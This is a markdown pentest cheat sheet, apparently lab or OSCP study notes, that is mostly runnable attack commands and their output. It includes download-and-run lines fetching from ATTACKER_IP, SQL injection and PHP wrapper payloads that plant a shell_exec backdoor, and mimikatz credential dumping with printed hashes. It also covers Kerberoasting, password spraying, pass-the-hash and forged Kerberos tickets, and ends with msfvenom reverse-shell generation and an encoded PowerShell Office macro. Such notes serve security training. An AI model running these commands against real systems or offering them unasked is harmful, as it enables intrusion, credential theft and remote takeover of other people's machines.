

# Pentest

## Practical Tools

### File transfer

#### Sending a file through netcat

```bash
# Receiver
nc -l -p 1234 > out.file

# Sender
nc -w 3 [destination] 1234 < out.file
```

#### ftp

<pre><code>sudo pip3 install pyftpdlib
<strong>sudo python3 -m pyftpdlib -w -p 21
</strong></code></pre>

non-interactive on windows

```
echo open 10.11.0.4 21> ftp.txt
echo USER offsec>> ftp.txt
echo lab>> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt
```

```
ftp -v -n -s:ftp.txt
```

windows download

```
powershell -command "invoke-webrequest -Uri 'http://ATTACKER_IP/winPEAS.bat' -OutFile winpeas.bat"
invoke-webrequest -Uri 'http://ATTACKER_IP/winPEAS.bat' -OutFile winpeas.bat
cmd.exe /C certutil -urlcache -split -f http://10.10.75.213/pro.exe pro.exe
```

```powershell
Invoke-WebRequest -Uri 'https://download.sysinternals.com/files/PSTools.zip' -OutFile 'pstools.zip'
Expand-Archive -Path 'pstools.zip' -DestinationPath "$env:TEMP\pstools"
Move-Item -Path "$env:TEMP\pstools\psexec.exe" .
Remove-Item -Path "$env:TEMP\pstools" -Recurse
```

#### httpsrv.py

```
sudo httpsrv.py --bind=0.0.0.0 80
```

Windows upload & download

```batch
powershell -ep bypass -c "$wc=New-Object Net.WebClient;$wc.UploadFile('http://target.com/upload.bin', 'PUT', 'c:\\upload.bin');"
powershell -ep bypass -c "$wc=New-Object Net.WebClient;$wc.DownloadFile('http://target.com/download.bin','c:\\download.bin');"
```

Linux upload & download

```bash
curl -X PUT --upload-file upload.bin http://target.com/upload.bin
wget -O- --method=PUT --body-file=upload.bin http://target.com/upload.bin
wget http://target.com/download.bin -O /tmp/download.bin
curl http://target.com/download.bin -o /tmp/download.bin
```

<details>

<summary>httpsrv.py</summary>

```
#!/usr/bin/env python3

"""Extend Python's built in HTTP server to save files

Windows upload & download
    powershell -ep bypass -c "$wc=New-Object Net.WebClient;$wc.UploadFile('http://target.com/upload.bin', 'PUT', 'c:\\upload.bin');"
    powershell -ep bypass -c "$wc=New-Object Net.WebClient;$wc.DownloadFile('http://target.com/download.bin','c:\\download.bin');"

Linux upload & download
    curl -X PUT --upload-file upload.bin http://target.com/upload.bin
    wget -O- --method=PUT --body-file=upload.bin http://target.com/upload.bin
    wget http://target.com/download.bin -O /tmp/download.bin
    curl http://target.com/download.bin -o /tmp/download.bin
"""
import os
import argparse
try:
    import http.server as server
except ImportError:
    # Handle Python 2.x
    import SimpleHTTPServer as server

class HTTPRequestHandler(server.SimpleHTTPRequestHandler):
    """Extend SimpleHTTPRequestHandler to handle PUT requests"""
    def do_PUT(self):
        """Save a file following a HTTP PUT request"""
        filename = os.path.basename(self.path)

        # Don't overwrite files
        if os.path.exists(filename):
            self.send_response(409, 'Conflict')
            self.end_headers()
            reply_body = '"%s" already exists\n' % filename
            self.wfile.write(reply_body.encode('utf-8'))
            return

        file_length = int(self.headers['Content-Length'])
        read = 0
        with open(filename, 'wb+') as output_file:
            while read < file_length:
                new_read = self.rfile.read(min(66556, file_length - read))
                read += len(new_read)
                output_file.write(new_read)
        self.send_response(201, 'Created')
        self.end_headers()
        reply_body = 'Saved "%s"\n' % filename
        self.wfile.write(reply_body.encode('utf-8'))

    def do_GET(self):
        self.send_response(404, 'Not Found')
        self.end_headers()
        self.wfile.write(b'')


if __name__ == '__main__':
    parser = argparse.ArgumentParser()
    parser.add_argument('--bind', '-b', default='', metavar='ADDRESS',
                        help='Specify alternate bind address '
                             '[default: all interfaces]')
    parser.add_argument('port', action='store',
                        default=8000, type=int,
                        nargs='?',
                        help='Specify alternate port [default: 8000]')
    args = parser.parse_args()

    server.test(HandlerClass=HTTPRequestHandler, port=args.port, bind=args.bind)
```

</details>

#### smb server



```
# from the examples directory, virtualenv, run as root
python smbserver.py -smb2support share_name /mnt/files/
```

## Enumeration

### Manual Ping Windows

```
for /L %i in (1,1,255) do @ping -n 1 -w 200 10.5.5.%i > nul && echo 10.5.5.%i is up.
```

### DNS Enumeration

```
host -t mx megacorpone.com
for ip in $(cat list.txt); do host $ip.megacorpone.com; done
for ip in $(seq  50 100); do host 38.100.193.$ip; done | grep -v "not found"
# DNS zone transfer
host -l DOMAIN DNS_SERVER
dnsrecon -d megacorpone.com -t axfr
dnsenum zonetransfer.me
# brute force
dnsrecon -d megacorpone.com -D ~/list.txt -t brt
```

```
# oscp exercise, figuring out domain from private dns
dig -x 192.168.151.149  @192.168.151.149
dig TXT @192.168.151.149 dc.MAILMAN.com 
```

#### **Brute force subdomains**

```bash
gobuster vhost -u cybercrafted.thm -w ~/pentest/wordlists/shubs-subdomains.txt 
```

```bash
wfuzz -c -f sub-fighter.txt -Z \
    -w ~/pentest/wordlists/shubs-subdomains.txt \
    -H "Host: FUZZ.cmess.thm" --hw 290 cmess.thm
```

### Port scanning

configure firewall to return RST when TCP port scan occurs (TCP SYN is spoofed)

```
iptables -I INPUT -p tcp --dport <port> -j REJECT --reject-with tcp-reset
```

This can make it extremely difficult (if not impossible) to get an accurate reading of the target(s).

|                                        |                                                           |
| -------------------------------------- | --------------------------------------------------------- |
| ping sweep                             | `nmap -sn 192.168.0.1-254`                                |
| SYN scan                               | `sudo nmap -sS 192.168.0.1-254`                           |
| UDP scan                               | `nmap -sU --top-ports 20 <target>`                        |
| OS fingerprinting                      | sudo nmap -O 10.11.1.220                                  |
| dont ping host, avoid windows firewall | -Pn                                                       |
| Banner grabbing                        | nmap -sV -sT 10.11.1.220                                  |
| Service enumeration scripts            | nmap -A 10.11.1.220                                       |
| script (dns zone transfer)             | nmap --script=dns-zone-transfer -p 53 ns2.megacorpone.com |
| export all                             | nmap -oA all 192.168.0.1                                  |

```
nmap -p 80 --script http-put --script-args http-put.url='/dav/shell.php',http-put.file='./shell.php'
```

https://nmap.org/nsedoc/

#### static nmap



download release, extract on system

```
export NMAPDIR=/home/j0hn/1/data/
./nmap -sS -sC -Pn -p 3389 -T4 -iL targets.txt -vv
```

### SMB Enumeration

* NetBIOS : TCP port 139
* SMB : TCP port 445

```
nmap -v -p 139,445 -oG smb.txt 10.11.1.1-254
# NetBIOS specific tool
sudo nbtscan -r 10.11.1.0/24
```

```
nmap -v -p 139, 445 --script=smb-os-discovery 10.11.1.227
```

Enumerate samba shares

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.170.159
```

<pre><code>for ip in $(cat smb_ips.txt); do enum4linux -a $ip; done
<strong>smbclient -U alfred -L //192.168.177.13/files
</strong></code></pre>

### NFS Enumeration&#x20;

```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.170.159
# or nmap -p 111 --script nfs* 10.11.1.72
nmap -sV -p 111 --script=rpcinfo 10.11.1.1-254
```

say that `/var` has been found, we can mount it locally like that:

```
mkdir tempnfs
sudo mount -o nolock TARGET_IP:/var tempnfs
```

If permission denied for some files, create user with the same UUID

```
sudo adduser pwn # (uuid = 1001)
sudo sed -i -e 's/1001/1014/g' /etc/passwd
```

### SMTP Enumeration&#x20;

* _VRFY_ request asks the server to verify an email address
* _EXPN_ asks the server for the membership of a mailing list.

verify existing users on a mail server

```python
#!/usr/bin/python
import socket
import sys
if len(sys.argv) != 2:
        print "Usage: vrfy.py <username>"
        sys.exit(0)
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = s.connect(('10.11.1.217',25))
banner = s.recv(1024)
print banner
# VRFY a user
s.send('VRFY ' + sys.argv[1] + '\r\n')
result = s.recv(1024)
print result
s.close()
```

### SNMP Enumeration

Simple Network Management Protocol, based on UDP, IP spoofing and replay attacks\
The SNMP MIB Tree (Management Information Base, database containing information usually related to network management)

Windows SNMP MIB values

| 1.3.6.1.2.1.25.1.6.0   | System Processes |
| ---------------------- | ---------------- |
| 1.3.6.1.2.1.25.4.2.1.2 | Running Programs |
| 1.3.6.1.2.1.25.4.2.1.4 | Processes Path   |
| 1.3.6.1.2.1.25.2.3.1.4 | Storage Units    |
| 1.3.6.1.2.1.25.6.3.1.2 | Software Name    |
| 1.3.6.1.4.1.77.1.2.25  | User Accounts    |
| 1.3.6.1.2.1.6.13.1.3   | TCP Local Ports  |

```
sudo nmap -sU --open -p 161 10.11.1.1-254 -oG open-snmp.txt
```

brute force

```
echo public > community
echo private >> community
echo manager >> community
for ip in $(seq 1 254); do echo 10.11.1.$ip; done > ips
onesixtyone -c community -i ips
```

#### Windows SNMP Enumeration Example

provided we at least know the SNMP read-only community string, which in most cases is "public".

Enumerating the Entire MIB Tree

```
snmpwalk -c public -v1 -t 10 10.11.1.14
```

Enumerating Windows Users

```
snmpwalk -c public -v1 10.11.1.14 1.3.6.1.4.1.77.1.2.25
```

Enumerating Running Windows Processes

```
snmpwalk -c public -v1 10.11.1.73 1.3.6.1.2.1.25.4.2.1.2
```

Enumerating Open TCP Ports

```
snmpwalk -c public -v1 10.11.1.14 1.3.6.1.2.1.6.13.1.3
```

Enumerating Installed Software

```
snmpwalk -c public -v1 10.11.1.50 1.3.6.1.2.1.25.6.3.1.2
```

### Dirb

```shell
# -r to scan non-recursively
# -z 10 to add a 10 millisecond delay to each request
dirb http://www.megacorpone.com -r -z 10
```

### Nikto

```
nikto -host=http://www.megacorpone.com -maxtime=30s
```

## Web application

### MySQL

```
mysql -uUSERNAME -pPASSWD --host=127.0.0.1 --port=13306
SHOW Grants;
show variables;

show databases;
use db
show tables;
```

### Web Servers

```
python -m SimpleHTTPServer 7331
python3 -m http.server 7331
php -S 0.0.0.0:8000
ruby -run -e httpd . -p 9000
busybox httpd -f -p 10000
```

#### PHP Wrappers

```
http://10.11.0.22/menu.php?file=data:text/plain,hello world
http://10.11.0.22/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
```

### SQL Injection

#### Extracting Data from the Database

```
http://10.11.0.22/debug.php?id=1 union all select 1, 2, @@version
http://10.11.0.22/debug.php?id=1 union all select 1, 2, user()
http://10.11.0.22/debug.php?id=1 union all select 1, 2, table_name from information_schema.tables
http://10.11.0.22/debug.php?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'
http://10.11.0.22/debug.php?id=1 union all select 1, username, password from users
```

#### From SQL Injection to Code Execution

```
http://10.11.0.22/debug.php?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')
http://10.11.0.22/debug.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'

```

#### **sqlmap**

in google chrome, open network, select call and and copy request header, paste it to a file req.txt

```
sqlmap -r req.txt 
```

other examples:

```
sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id"
sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id" --dbms=mysql --dump
sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id" --dbms=mysql --os-shell
```

### Cross-Site Scripting (XSS)

* _Stored XSS attacks /_ _Persistent XSS:_ exploit stored server --> attack all users of the site.&#x20;
* _Reflected XSS attacks_: the payload in a crafted request or link --> attacks the person submitting the request or viewing the link
* _DOM-based XSS attacks:_ similar to the other two, solely within the page's DOM

## Active Directory Attacks

### Active Directory Enumeration

#### Traditional Approach

```
# get all users in the domain
cmd> net user /domain
cmd> net user [username] /domain

# get all groups in the domain
cmd> net group /domain
cmd> net group [groupname] /domain

# get all computers in domain
cmd> net view
cmd> net view /domain

# get resources/shares of specified computer
cmd> net view \\[computer_name] /domain
```

#### A Modern Approach

```
PS C:\Users\offsec.CORP> [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()


Forest                  : corp.com
DomainControllers       : {DC01.corp.com}
Children                : {}
DomainMode              : Unknown
DomainModeLevel         : 7
Parent                  : 
PdcRoleOwner            : DC01.corp.com
RidRoleOwner            : DC01.corp.com
InfrastructureRoleOwner : DC01.corp.com
Name                    : corp.com
```

```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName 
# LDAP://DC01.corp.com/DC=corp,DC=com

$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
$objDomain = New-Object System.DirectoryServices.DirectoryEntry($SearchString, "corp.com\offsec", "lab")
$Searcher.SearchRoot = $objDomain

$Searcher.filter="samAccountType=805306368"
# $Searcher.filter="name=Jeff_Admin"
$Result = $Searcher.FindAll()

Foreach($obj in $Result)
{
    Foreach($prop in $obj.Properties)
    {
        $prop
    }
    
    Write-Host "------------------------"
}
```

#### Resolving Nested Groups

```powershell
$Searcher.filter="(objectClass=Group)"
$Result = $Searcher.FindAll()
Foreach($obj in $Result)
{
    $obj.Properties.name
}
# ...
# Key Admins
# Enterprise Key Admins
# DnsAdmins
# DnsUpdateProxy
# Secret_Group
# Nested_Group
# Another_Nested_Group
...

$Searcher.filter="(name=Secret_Group)"
$Result = $Searcher.FindAll()
Foreach($obj in $Result)
{
    $obj.Properties.member
}
```

#### Currently Logged on Users

```
PS C:\Tools\active_directory> Import-Module .\PowerView.ps1
```

Enumerate logged-in users with Get-NetLoggedon (-ComputerName = target workstation or server)

```
PS C:\Tools\active_directory> Get-NetLoggedon -ComputerName client251
```

retrieve active sessions on the domain controller DC01

```
PS C:\Tools\active_directory> Get-NetSession -ComputerName dc01
```

#### Enumeration Through Service Principal Names

```powershell
$Searcher.filter="serviceprincipalname=*http*"
$Result = $Searcher.FindAll()
Foreach($obj in $Result)
{
    Foreach($prop in $obj.Properties)
    {
        $prop
    }
}
# ...
# samaccountname          {iis_service}  
# ...
# serviceprincipalname    {HTTP/CorpWebServer.corp.com} 
# ...
```

```
PS C:\Users\offsec.CORP> nslookup CorpWebServer.corp.com
Server:  UnKnown
Address:  192.168.1.110

Name:    corpwebserver.corp.com
Address:  192.168.1.110
```

### Active Directory Authentication

mimikatz inline

```
PS C:\temp\mimikatz> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
```

#### Cached Credential Storage and Retrieval

on a domain workstation

```
C:\Tools\active_directory> mimikatz.exe

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 291668 (00000000:00047354)
Session           : Interactive from 1
User Name         : Offsec
Domain            : CORP
Logon Server      : DC01
Logon Time        : 08/02/2018 14.23.26
SID               : S-1-5-21-1602875587-2787523311-2599479668-1103
        msv :
         [00000003] Primary
         \* Username : Offsec
         \* Domain   : CORP
         \* NTLM     : e2b475c11da2a0748290d87aa966c327
         \* SHA1     : 8c77f430e4ab8acb10ead387d64011c76400d26e
         \* DPAPI    : 162d313bede93b0a2e72a030ec9210f0
        tspkg :
        wdigest :
         \* Username : Offsec
         \* Domain   : CORP
         \* Password : (null)
        kerberos :
         \* Username : Offsec
         \* Domain   : CORP.COM
         \* Password : (null)
...
```

```
mimikatz # sekurlsa::tickets

Authentication Id : 0 ; 291668 (00000000:00047354)
Session           : Interactive from 1
User Name         : Offsec
Domain            : CORP
Logon Server      : DC01
Logon Time        : 08/02/2018 14.23.26
SID               : S-1-5-21-1602875587-2787523311-2599479668-1103

 * Username : Offsec
 * Domain   : CORP.COM
 * Password : (null)

Group 0 - Ticket Granting Service
 [00000000]
   Start/End/MaxRenew: 09/02/2018 14.41.47 ; 10/02/2018 00.41.47 ; 16/02/2018 14.41.47
   Service Name (02) : cifs ; dc01 ; @ CORP.COM
   Target Name  (02) : cifs ; dc01 ; @ CORP.COM
   Client Name  (01) : Offsec ; @ CORP.COM
   Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ;
   Session Key       : 0x00000012 - aes256_hmac
     d062a1b8c909544a7130652fd4bae4c04833c3324aa2eb1d051816a7090a0718
   Ticket            : 0x00000012 - aes256_hmac       ; kvno = 3        [...]

Group 1 - Client Ticket ?

Group 2 - Ticket Granting Ticket
 [00000000]
   Start/End/MaxRenew: 09/02/2018 14.41.47 ; 10/02/2018 00.41.47 ; 16/02/2018 14.41.47
   Service Name (02) : krbtgt ; CORP.COM ; @ CORP.COM
   Target Name  (--) : @ CORP.COM
   Client Name  (01) : Offsec ; @ CORP.COM ( $$Delegation Ticket$$ )
   Flags 60a10000    : name_canonicalize ; pre_authent ; renewable ; forwarded ; forwa
   Session Key       : 0x00000012 - aes256_hmac
     3b0a49af17a1ada1dacf2e3b8964ad397d80270b71718cc567da4d4b2b6dc90d
   Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
 [00000001]
   Start/End/MaxRenew: 09/02/2018 14.41.47 ; 10/02/2018 00.41.47 ; 16/02/2018 14.41.47
   Service Name (02) : krbtgt ; CORP.COM ; @ CORP.COM
   Target Name  (02) : krbtgt ; CORP.COM ; @ CORP.COM
   Client Name  (01) : Offsec ; @ CORP.COM ( CORP.COM )
   Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forward
   Session Key       : 0x00000012 - aes256_hmac
     8f6e96a7067a86d94af4e9f46e0e2abd067422fe7b1588db37c199f5691a749c
   Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
...
```

#### Service Account Attacks

```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/CorpWebServer.corp.com'
```

```
PS C:\Users\offsec.CORP> klist

Current LogonId is 0:0x3dedf

Cached Tickets: (4)

#0>	Client: Offsec @ CORP.COM
	Server: krbtgt/CORP.COM @ CORP.COM
	KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
	Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicaliz
	Start Time: 2/12/2018 10:17:53 (local)
	End Time:   2/12/2018 20:17:53 (local)
	Renew Time: 2/19/2018 10:17:53 (local)
	Session Key Type: AES-256-CTS-HMAC-SHA1-96
	Cache Flags: 0x1 -> PRIMARY 
	Kdc Called: DC01.corp.com

#1>	Client: Offsec @ CORP.COM
	Server: HTTP/CorpWebServer.corp.com @ CORP.COM
	KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
	Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_cano
	Start Time: 2/12/2018 10:18:31 (local)
	End Time:   2/12/2018 20:17:53 (local)
	Renew Time: 2/19/2018 10:17:53 (local)
	Session Key Type: RSADSI RC4-HMAC(NT)
	Cache Flags: 0 
	Kdc Called: DC01.corp.com
...
```

or using mimikatz :

```
mimikatz # kerberos::list /export

[00000000] - 0x00000012 - aes256_hmac
   Start/End/MaxRenew: 12/02/2018 10.17.53 ; 12/02/2018 20.17.53 ; 19/02/2018 10.17.53
   Server Name       : krbtgt/CORP.COM @ CORP.COM
   Client Name       : Offsec @ CORP.COM
   Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forward
   \* Saved to file     : 0-40e10000-Offsec@krbtgt~CORP.COM-CORP.COM.kirbi

[00000001] - 0x00000017 - rc4_hmac_nt
   Start/End/MaxRenew: 12/02/2018 10.18.31 ; 12/02/2018 20.17.53 ; 19/02/2018 10.17.53
   Server Name       : HTTP/CorpWebServer.corp.com @ CORP.COM
   Client Name       : Offsec @ CORP.COM
   Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ;
   \* Saved to file     : 1-40a50000-offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi
```

cracking

```
kali@kali:~$ sudo apt update && sudo apt install kerberoast
...
kali@kali:~$ python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt 1-40a50000-Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi 
found password for ticket 0: Qwerty09!  File: 1-40a50000-Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi
All tickets cracked!
```

can also use john

#### Low and Slow Password Guessing

```
PS C:\Users\Offsec.corp> net accounts
Force user logoff how long after time expires?:       Never
Minimum password age (days):                          0
Maximum password age (days):                          42
Minimum password length:                              0
Length of password history maintained:                None
Lockout threshold:                                    5
Lockout duration (minutes):                           30
Lockout observation window (minutes):                 30
Computer role:                                        WORKSTATION
The command completed successfully.
```

```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
New-Object System.DirectoryServices.DirectoryEntry($SearchString, "jeff_admin", "Qwerty09!")
```

If the password for the user account is correct, the object creation will be successful as shown in:w

```
distinguishedName : {DC=corp,DC=com}
Path              : LDAP://DC01.corp.com/DC=corp,DC=com
```

```
PS C:\Tools\active_directory> .\Spray-Passwords.ps1 -Pass Qwerty09! -Admin
WARNING: also targeting admin accounts.
Performing brute force - press [q] to stop the process and print results...
Guessed password for user: 'Administrator' = 'Qwerty09!'
Guessed password for user: 'offsec' = 'Qwerty09!'
Guessed password for user: 'adam' = 'Qwerty09!'
Guessed password for user: 'iis_service' = 'Qwerty09!'
Guessed password for user: 'sql_service' = 'Qwerty09!'
Stopping bruteforce now....
Users guessed are:
 'Administrator' with password: 'Qwerty09!'
 'offsec' with password: 'Qwerty09!'
 'adam' with password: 'Qwerty09!'
 'iis_service' with password: 'Qwerty09!'
 'sql_service' with password: 'Qwerty09!'
```

### Active Directory Lateral Movement

#### Pass the Hash

only works for server or service using NTLM authentication.

```
kali@kali:~$ pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 10.0.16299.309]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

enable pass the hash for RDP

```
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin" -Value "0" -PropertyType DWORD -Force
```

```
# enable pass the hash:
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f


xfreerdp [/d:domain] /u:<username> /p:<password> /v:<IP>
xfreerdp [/d:domain] /u:<username> /pth:<hash> /v:<IP> #Pass the hash
xfreerdp /clipboard /async-update /async-input /auto-reconnect /audio-mode:1 -glyph-cache /bpp:8 /network:modem /compression -themes -wallpaper /u:admin /pth:hhhhhhhhh  /cert:ignore /v:10.11.1.000 /workarea
```



#### open a session on another machine

```powershell
$dcsesh = New-PSSession -Computer SANDBOXDC
Invoke-Command -Session $dcsesh -ScriptBlock {ipconfig}
Copy-Item "C:\Users\Public\whoami.exe" -Destination "C:\Users\Public\" -ToSession $dcsesh
```

#### Overpass the Hash

```
mimikatz # sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe
user    : jeff_admin
domain  : corp.com
program : cmd.exe
impers. : no
NTLM    : e2b475c11da2a0748290d87aa966c327
  |  PID  4832
  |  TID  2268
  |  LSA Process is now R/W
  |  LUID 0 ; 1197687 (00000000:00124677)
  \_ msv1_0   - data copy @ 040E5614 : OK !
  \_ kerberos - data copy @ 040E5438
   \_ aes256_hmac       -> null
   \_ aes128_hmac       -> null
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
   \_ *Password replace -> null
```

At this point, we have a new PowerShell session that allows us to execute commands as Jeff\_Admin.

```
PS C:\Windows\system32> net use \\dc01
The command completed successfully.

PS C:\Windows\system32> klist

Current LogonId is 0:0x1583ae

Cached Tickets: (3)

#0> Client: jeff_admin @ CORP.COM
    Server: krbtgt/CORP.COM @ CORP.COM
    KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
    Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canoni
    Start Time: 2/12/2018 13:59:40 (local)
    End Time:   2/12/2018 23:59:40 (local)
    Renew Time: 2/19/2018 13:59:40 (local)
    Session Key Type: AES-256-CTS-HMAC-SHA1-96
    Cache Flags: 0x2 -> DELEGATION
    Kdc Called: DC01.corp.com

#1> Client: jeff_admin @ CORP.COM
    Server: krbtgt/CORP.COM @ CORP.COM
    KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
    Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonica
    Start Time: 2/12/2018 13:59:40 (local)
    End Time:   2/12/2018 23:59:40 (local)
    Renew Time: 2/19/2018 13:59:40 (local)
    Session Key Type: AES-256-CTS-HMAC-SHA1-96
    Cache Flags: 0x1 -> PRIMARY
    Kdc Called: DC01.corp.com

#2> Client: jeff_admin @ CORP.COM
    Server: cifs/dc01 @ CORP.COM
    KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
    Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_c
    Start Time: 2/12/2018 13:59:40 (local)
    End Time:   2/12/2018 23:59:40 (local)
    Renew Time: 2/19/2018 13:59:40 (local)
    Session Key Type: AES-256-CTS-HMAC-SHA1-96
    Cache Flags: 0
    Kdc Called: DC01.corp.com
```

Running ./PsExec.exe to launch cmd.exe remotely on the \dc01 machine as Jeff\_Admin:

```
PS C:\Tools\active_directory> .\PsExec.exe \\dc01 cmd.exe
```

#### Pass the Ticket

SID

```
C:\>whoami /user

USER INFORMATION
----------------

User Name   SID
=========== ==============================================
corp\offsec S-1-5-21-1602875587-2787523311-2599479668-1103
```

The SID defining the domain is the entire string except the RID at the end ( _-1103_ )

```
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK

mimikatz # kerberos::list

mimikatz # kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt
User      : offsec
Domain    : corp.com (CORP)
SID       : S-1-5-21-1602875587-2787523311-2599479668
User Id   : 500
Groups Id : \*513 512 520 518 519
ServiceKey: e2b475c11da2a0748290d87aa966c327 - rc4_hmac_nt
Service   : HTTP
Target    : CorpWebServer.corp.com
Lifetime  : 13/02/2018 10.18.42 ; 11/02/2028 10.18.42 ; 11/02/2028 10.18.42
-> Ticket : \*\* Pass The Ticket \*\*

 \* PAC generated
 \* PAC signed
 \* EncTicketPart generated
 \* EncTicketPart encrypted
 \* KrbCred generated

Golden ticket for 'offsec @ corp.com' successfully submitted for current session

mimikatz # kerberos::list

[00000000] - 0x00000017 - rc4_hmac_nt
   Start/End/MaxRenew: 13/02/2018 10.18.42 ; 11/02/2028 10.18.42 ; 11/02/2028 10.18.42
   Server Name       : HTTP/CorpWebServer.corp.com @ corp.com
   Client Name       : offsec @ corp.com
   Flags 40a00000    : pre_authent ; renewable ; forwardable ;
```

#### Distributed Component Object Model

Microsoft Office

```
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "192.168.1.110"))
$com | Get-Member
```

proof of concept macro for Excel

```
Sub mymacro()
    Shell ("notepad.exe")
End Sub
```

We have named the macro "mymacro" and saved the Excel file in the legacy .xls format.

```
$LocalPath = "C:\Users\jeff_admin.corp\myexcel.xls"
$RemotePath = "\\192.168.1.110\c$\myexcel.xls"
[System.IO.File]::Copy($LocalPath, $RemotePath, $True)
```

```
$Workbook = $com.Workbooks.Open("C:\myexcel.xls")
Unable to get the Open property of the Workbooks class
At line:1 char:1
+ $Workbook = $com.Workbooks.Open("C:\myexcel.xls")
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : OperationStopped: (:) [], COMException
    + FullyQualifiedErrorId : System.Runtime.InteropServices.COMException
```

```
$Path = "\\192.168.1.110\c$\Windows\sysWOW64\config\systemprofile\Desktop"
$temp = [system.io.directory]::createDirectory($Path)
```

```
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "192.168.1.110"))
$LocalPath = "C:\Users\jeff_admin.corp\myexcel.xls"
$RemotePath = "\\192.168.1.110\c$\myexcel.xls"
[System.IO.File]::Copy($LocalPath, $RemotePath, $True)
$Path = "\\192.168.1.110\c$\Windows\sysWOW64\config\systemprofile\Desktop"
$temp = [system.io.directory]::createDirectory($Path)
$Workbook = $com.Workbooks.Open("C:\myexcel.xls")
$com.Run("mymacro")
```

rev shell

```
kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.111 LPORT=4444 -f hta-psh -o evil.hta

# to produce macro for word
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.202 LPORT=4242 -f vba-psh
```

```
str = "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQ....."

n = 50

for i in range(0, len(str), n):
	print "Str = Str + " + '"' + str[i:i+n] + '"'
```

```
Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
    Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
    ...
